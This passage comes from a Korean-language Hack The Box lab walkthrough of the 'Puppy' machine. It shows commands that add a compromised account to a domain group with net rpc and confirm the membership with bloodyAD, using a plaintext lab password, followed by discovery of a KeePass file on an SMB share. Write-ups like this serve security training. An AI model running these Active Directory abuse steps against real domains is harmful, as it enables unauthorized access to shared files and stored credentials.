 ```zsh
➜  / net rpc group addmem "developers" "levi.james" -U "puppy.htb"/"levi.james"%"KingofAkron2025\!" -S "dc.puppy.htb"

[ . . . ]

(bloodyAD) ➜  ~ bloodyAD -u levi.james -p 'KingofAkron2025!' --host 10.129.28.145 --dc-ip 10.129.28.145 get object levi.james | grep -i member
memberOf: CN=DEVELOPERS,DC=PUPPY,DC=HTB; CN=HR,DC=PUPPY,DC=HTB
```

<img src='assets/post/2025/Playground/Hack The Box/Puppy/16.png' width=1200 alt=''>

<br>

- 다시 SMB 쉐어의 권한을 살펴보면 `levi.james` 계정에 읽기 권한이 부여됐다.  
- DEVELOPERS 그룹의 멤버는 `DEV` 쉐어의 읽기 권한이 있음을 유추해 볼 수 있다.  

<img src='assets/post/2025/Playground/Hack The Box/Puppy/17.png' width=1200 alt=''>

<br>


- 해당 쉐어로 접근하였더니, `.kdbx` 파일이 존재했다.  
- 이 파일은 비밀번호를 관리하는 오픈소스 프로그램(KeePass)이다.  

<img src='assets/post/2025/Playground/Hack The Box/Puppy/18.png' width=1200 alt=''>

